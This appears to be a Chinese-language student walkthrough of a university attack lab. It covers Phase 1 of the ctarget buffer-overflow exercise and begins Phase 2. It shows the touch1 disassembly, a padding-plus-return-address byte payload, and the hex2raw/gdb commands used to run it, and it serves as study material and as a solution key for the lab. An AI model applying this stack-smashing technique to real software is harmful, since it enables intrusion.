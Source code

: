 Touch1:

```assembly
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

0x28在十进制下2*16+8=40个bytes,一个地址是8个bytes,所以我们想要在getbuf时跳转到touch1则需要缓冲区把原本的地址的位置(0x5561dca8)覆盖成0x004017c0,而那空余的四十个bytes想填啥填啥

即字节码为:(小端法,逆序存储)

```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
c0 17 40 00
```

保存该文件为sol1.txt,然后把这个字节码转化成string,通过hex2raw命令(可以查看pdf文档的附录A),然后可以通过-i进行重定向输入,则完成Phase_1

输入命令

```bash
./hex2raw <sol1.txt >sol1r.txt
gdb ctarget
run -q -i sol1r.txt
```

观察到以下信息则通关!

![image-20240302013522137](https://cdn.jsdelivr.net/gh/zhzvite/picgoroom@img/img/202403020220621.png)

## Phase_2

照例读一遍官方pdf文档:

Phase 2 involves injecting a small amount of code as part of your exploit string. Within the file ctarget there is code for a function **touch2** having the following C representation:
```cpp
void touch2(unsigned val)
{
vlevel = 2;/* Part of validation protocol */
if (val == cookie) {
printf("Touch2!: You called touch2(0x%.8x)\n", val);
validate(2);
} 
else {
printf("Misfire: You called touch2(0x%.8x)\n", val);
fail(2);
}
exit(0);
 }
```